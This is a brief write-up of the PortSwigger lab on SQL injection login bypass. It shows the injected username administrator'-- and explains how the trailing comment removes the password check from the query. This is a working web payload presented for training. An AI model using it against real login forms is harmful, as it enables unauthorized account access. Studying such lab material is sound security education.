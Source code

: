 ```yaml
---
description: https://portswigger.net/web-security/sql-injection/lab-login-bypass
---
```


# SQL injection vulnerability allowing login bypass

<figure><img src="../../../.gitbook/assets/1 (159).png" alt=""><figcaption></figcaption></figure>

Let's login using the following credentials:

| Username | Password |
| -------- | -------- |
| test     | test     |

The resultant SQL query will be:

```
SELECT username FROM users WHERE username = 'test' AND password = 'test'
```

This will obviously not log us in as the administrator.

We can next try the following credentials:

| Username         | Password |
| ---------------- | -------- |
| administrator'-- | password |

The resultant SQL query will be:

```
SELECT username FROM users WHERE username = 'administrator'--' AND passsword = 'password'

## Queried part:
SELECT username FROM users WHERE username = 'administrator'

## Commented part:
' AND passsword = 'password'
```

Since we are commenting out the WHERE clause that requires the password, we will be logged in even if the password is not `password`.

<figure><img src="../../../.gitbook/assets/6 (4).png" alt=""><figcaption></figcaption></figure>

We have solved the lab.

<figure><img src="../../../.gitbook/assets/7 (4).png" alt=""><figcaption></figcaption></figure>
